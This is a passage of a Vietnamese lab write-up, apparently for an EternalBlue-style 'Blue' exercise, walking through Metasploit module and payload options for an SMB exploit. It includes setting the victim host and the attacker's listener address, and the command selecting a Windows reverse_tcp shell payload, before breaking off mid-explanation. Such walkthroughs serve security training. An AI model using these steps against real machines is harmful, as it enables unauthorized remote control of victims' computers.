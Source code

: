
1. Module options

```
RHOSTS        yes   The target host(s)
RPORT   445   yes   The target port (TCP)
SMBDomain     no    Tên miền Windows (nếu cần đăng nhập)
SMBPass       no    Mật khẩu (nếu cần)
SMBUser       no    Tài khoản (nếu cần)
VERIFY_ARCH   yes   Kiểm tra kiến trúc (32/64-bit) trước khi exploit
VERIFY_TARGET yes   Kiểm tra OS có khớp với exploit hay không
```

Ở đây, cái **bắt buộc bạn phải set là RHOSTS** (IP của máy nạn nhân).

* `RPORT` mặc định = 445 (cổng SMB), giữ nguyên.
* `SMBDomain`, `SMBUser`, `SMBPass` thường để trống (chỉ cần khi cần xác thực).
* `VERIFY_ARCH` và `VERIFY_TARGET` mặc định là `true`, có lợi cho độ ổn định, nên giữ nguyên.


---

2. Payload options (windows/x64/meterpreter/reverse\_tcp)

```
EXITFUNC   thread   yes   Cách thoát khi payload kết thúc
LHOST      ?        yes   Địa chỉ IP máy tấn công (attacker)
LPORT      4444     yes   Cổng lắng nghe
```

Bắt buộc phải set **LHOST** (IP của máy tấn công – máy bạn).

---

![](./img/5_Blue/2.5.png)


- Sau đó:

```bash
set payload windows/x64/shell/reverse_tcp
```


Trong Metasploit, **payload** là đoạn mã chạy trên máy nạn nhân sau khi khai thác lỗ hổng thành công.
Nó quyết định bạn sẽ có **quyền kiểm soát** kiểu gì.

 `windows/x64/shell/reverse_tcp`

* **windows** → payload dành cho hệ điều hành Windows.
* **x64** → kiến trúc 64-bit (chạy trên Windows 7/8/10/Server 64-bit).
* **shell** → kiểu kết nối trả về là một **command shell cơ bản** (`cmd.exe`).
* **reverse\_tcp** → nghĩa là:
